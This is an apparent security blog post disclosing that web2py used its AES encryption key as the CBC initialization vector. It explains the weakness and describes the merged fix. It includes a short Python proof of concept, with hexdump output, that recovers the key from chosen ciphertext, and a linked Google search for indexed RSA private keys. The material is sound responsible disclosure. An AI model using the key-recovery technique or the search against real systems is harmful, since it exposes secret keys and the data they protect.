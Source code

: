 author: Marcin
disqus_id: 744897b1-f365-4776-9625-02c9f5a03ef8
disqus_url: http://www.tssci-security.com/archives/2013/02/21/web2py-key-as-initialization-vector/
parent: 0
post_id: 472
post_type: post
pub_date: 2013-02-21 11:00:00
public: 'yes'
slug: web2py-key-as-initialization-vector
tags:
- security
template: post.html
title: 'web2py: Key as Initialization Vector'
summary: |
  web2py used the secret key as the initialization vector when encrypting
  session cookies, we explain why this is bad.

web2py: Key as Initialization Vector
####################################

It's not uncommon for developers to accidentally (or purposefully) commit
passwords or other information supposed to remain secret into revision
control. It's also not uncommon to see `RSA private keys indexed by Google`_,
and GitHub made it even easier to find `secrets in the code`_ with their new
search features. These same search features make it easy to grep the web
for all kinds of insecure code patterns, especially insecure cryptographic
constructions. For example, a simple search for ``AES.new(`` in Python code
repositories revealed to me the web2py_ project was using the `encryption key
as the initialization vector (IV)`_, which is the focus of this blog post.

Why is this bad? Well, in an email to the `sci.crypt mailing list`_ back
in 1996, David Wagner explains why you should never do this.

Let's take a look at the insecure construction in web2py's ``gluon.utils``
module prior to merging my pull request that fixed this issue.

.. sourcecode:: python

    from Crypto.Cipher import AES

    #..snip..

    AES_new = lambda key: AES.new(key, AES.MODE_CBC, IV=key[:16])

From an attacker's perspective (in short), if we can control the ciphertext
being fed to this function, and see the output of this function (the decrypted)
text, we can easily deduce the key used to perform the encryption. The
following code demonstrates this:

.. sourcecode:: python

    KEY = 'testtesttesttest'
    PTEXT = 'The quick brown fox jumped over the lazy dog.The quick brown fox'


    def xor(a, b):
      return bytearray(x ^ y for x, y in zip(a, b))


    def exploit():
      # ciphertext produced by web2py
      ctext = bytearray(AES_new(KEY).encrypt(PTEXT))

      # our (malformed) ciphertext we plan to feed to web2py
      mtext = ctext[:16] * 4
      mtext[16:32] = [0x0] * 16

      # if at any point we identify what the decrypted data is
      ptext = bytearray(AES_new(KEY).decrypt(str(mtext)))

      # we can easily recover the secret key used:
      print('KEY: %r' % (str(xor(ptext[:16], ptext[32:48])), ))

Running this exploit returns the following (I've included hexdumps at each
step of the way)::

    >>> exploit()
    ctext: b9561dc60a622f09f8cb49f47a30719a19ef66aa2ea6f7772a15e81b722830fbea38af2c1fdbbf6340e9707592aadfd4ce57b982597eb1e93cc311f25ea73b5d

    0x00: b9 56 1d c6 0a 62 2f 09 f8 cb 49 f4 7a 30 71 9a .V...b....I.z0q.
    0x10: 19 ef 66 aa 2e a6 f7 77 2a 15 e8 1b 72 28 30 fb ..f....w....r.0.
    0x20: ea 38 af 2c 1f db bf 63 40 e9 70 75 92 aa df d4 .8.....c..pu....
    0x30: ce 57 b9 82 59 7e b1 e9 3c c3 11 f2 5e a7 3b 5d .W..Y...........

    mtext: b9561dc60a622f09f8cb49f47a30719a00000000000000000000000000000000b9561dc60a622f09f8cb49f47a30719ab9561dc60a622f09f8cb49f47a30719a

    0x00: b9 56 1d c6 0a 62 2f 09 f8 cb 49 f4 7a 30 71 9a .V...b....I.z0q.
    0x10: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
    0x20: b9 56 1d c6 0a 62 2f 09 f8 cb 49 f4 7a 30 71 9a .V...b....I.z0q.
    0x30: b9 56 1d c6 0a 62 2f 09 f8 cb 49 f4 7a 30 71 9a .V...b....I.z0q.

    ptext: 54686520717569636b2062726f776e20520b27652be2f4a1c978b57c0967a34c200d165405101a171f4511061b121d54995b0b920f72351ee78e58f261226cce

    0x00: 54 68 65 20 71 75 69 63 6b 20 62 72 6f 77 6e 20 The.quick.brown.
    0x10: 52 0b 27 65 2b e2 f4 a1 c9 78 b5 7c 09 67 a3 4c R..e.....x...g.L
    0x20: 20 0d 16 54 05 10 1a 17 1f 45 11 06 1b 12 1d 54 ...T.....E.....T
    0x30: 99 5b 0b 92 0f 72 35 1e e7 8e 58 f2 61 22 6c ce .....r5...X.a.l.

    KEY: testtesttesttest


Is web2py vulnerable?
~~~~~~~~~~~~~~~~~~~~~

In short, no. The manner in which ``AES_new`` was used across web2py's
codebase did not appear to be exploitable. web2py was using this to encrypt
pickled session data in a cookie in ``secure_dumps``, and authenticated with
an HMAC (which coincidentally was also vulnerable to a `timing attack`_).
However, applications that use ``AES_new`` as a convenience function for
decrypting data provided by the user are most likely vulnerable, amongst
other vulnerabilities that tend to crop up when rolling your own crypto.

If you've been keeping up with web2py's master, my `merged pull request`_
patches the ``AES_new`` function to return a random IV anytime it is invoked
and utilizes the more secure, constant-time ``compare`` function to validate
HMAC's.

.. _RSA private keys indexed by Google: https://www.google.com/search?q=intext:%22-----BEGIN+RSA+PRIVATE+KEY-----%22+filetype%3Apem
.. _secrets in the code: https://github.com/blog/1390-secrets-in-the-code
.. _web2py: https://github.com/web2py/web2py
.. _encryption key as the initialization vector (IV): https://github.com/web2py/web2py/pull/58
.. _sci.crypt mailing list: http://www.gnu.org/software/shishi/manual/html_node/Key-as-initialization-vector.html
.. _timing attack: http://codahale.com/a-lesson-in-timing-attacks/
.. _merged pull request: https://github.com/web2py/web2py/pull/58
